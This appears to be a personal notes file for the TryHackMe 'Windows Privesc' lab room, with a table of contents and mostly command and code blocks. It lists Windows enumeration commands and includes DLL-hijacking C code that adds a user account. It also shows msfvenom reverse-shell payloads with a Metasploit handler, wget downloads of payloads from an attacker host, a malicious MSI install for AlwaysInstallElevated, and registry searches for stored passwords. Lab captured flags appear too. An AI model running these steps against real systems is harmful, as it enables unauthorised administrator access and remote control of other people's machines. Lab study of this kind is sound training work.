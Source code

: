 <!-- TOC -->

- [Windows Privesc](#windows-privesc)
    - [Information Gathering](#information-gathering)
        - [User Enumeration](#user-enumeration)
        - [Collecting system information](#collecting-system-information)
        - [Searching files](#searching-files)
        - [Patch level](#patch-level)
        - [Network Connections](#network-connections)
        - [Scheduled Task](#scheduled-task)
        - [Drivers](#drivers)
        - [Antivirus](#antivirus)
    - [Tools of the trade](#tools-of-the-trade)
        - [WinPEAS](#winpeas)
        - [PowerUp](#powerup)
        - [Windows Exploit Suggester](#windows-exploit-suggester)
        - [Metasploit](#metasploit)
    - [Vulnerable Software](#vulnerable-software)
    - [DLL Hijacking](#dll-hijacking)
    - [Unquoted Service Path](#unquoted-service-path)
    - [Quick Wins](#quick-wins)
        - [Always Install Elevated](#always-install-elevated)
        - [Passwords](#passwords)

<!-- /TOC -->

# Windows Privesc

[Windows Privesc Room](https://tryhackme.com/room/winprivesc)

Learn the fundamentals of Windows privilege escalation. From enumeration to exploitation, get hands-on with privilege escalation techniques seen in the industry today.

## Information Gathering

### User Enumeration

```cmd
whoami /priv
net user
net user <USER>
qwinsta
query session
net localgroup
net localgroup <GROUP>
```

### Collecting system information

```cmd
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
hostname
```

### Searching files

```cmd
findstr /si password *.txt
```

### Patch level

```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Network Connections

```cmd
netstat -ano
```

### Scheduled Task

```cmd
schtasks
schtasks /query /fo LIST /v
```

### Drivers

```cmd
driverquery
```

### Antivirus

```cmd
sc.exe query windefend
```

## Tools of the trade

### WinPEAS

```cmd
winpeas.exe > outputfile.txt
```

### PowerUp

```cmd
powershell.exe -nop -exec bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

### Windows Exploit Suggester

```cmd
windows-exploit-suggester.py –update
windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt
```

### Metasploit

```bash
multi/recon/local_exploit_suggester
```

## Vulnerable Software

```cmd
wmic product
wmic product get name,version,vendor
wmic service list brief
wmic service list brief | findstr  "Running"
sc.exe qc <SERVICE>
```

- Searchsploit
- Metasploit
- Exploit-DB
- Github
- Google

## DLL Hijacking

```c
/* windows_dll.c */
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

rhost:

```cmd
wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll
sc stop dllsvc & sc start dllsvc
```

| Title | IP Address |
| :---- | :---- |
| DLL_Hijack | 10.10.123.106 |

```c
/* hijackme.c */
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user jack Password123");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll
```

lhost:

```bash
python3 -m http.server 80
```

rhost:

```cmd
wget 10.6.31.75:80/hijackme.dll -O C:\Temp\hijackme.dll
sc.exe stop dllsvc; sc.exe start dllsvc
xfreerdp /u:jack /p:Password123 /v:10.10.123.106
```

`Documents` folder:

> `THM-8377492093`

## Unquoted Service Path

```cmd
wmic service get name,displayname,pathname,startmode
```

| Title | IP Address |
| :---- | :---- |
| Unquoted_SP | 10.10.225.253 |

```cmd
sc.exe qc unquotedsvc
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

> `RW BUILTIN\Users`

lhost:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.31.75 LPORT=9999 -f exe -o Common.exe
python3 -m http.server 80
```

```bash
msfconsole
use exploit/multi/handler
set lhost 10.6.31.75
set lport 9999
set payload windows/x64/shell_reverse_tcp
run
```

rhost:

```cmd
wget 10.6.31.75:80/Common.exe -O "C:\Program Files\Unquoted Path Service\Common.exe"
sc.exe start unquotedsvc
```

lhost:

```cmd
cd ../..
dir flagUSP /s
```
> ` Directory of C:\Users\Cora\Documents 10/14/2021  11:54 PM 16 flagUSP.txt`

```cmd
powershell
cat C:\Users\Cora\Documents\flagUSP.txt
```

> `THM-636729273483`

## Quick Wins

### Always Install Elevated

```cmd
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```bash
msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_10.10.225.253 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

```cmd
C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Passwords

```cmd
cmdkey /list
runas /savecred /user:admin reverse_shell.exe
```

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
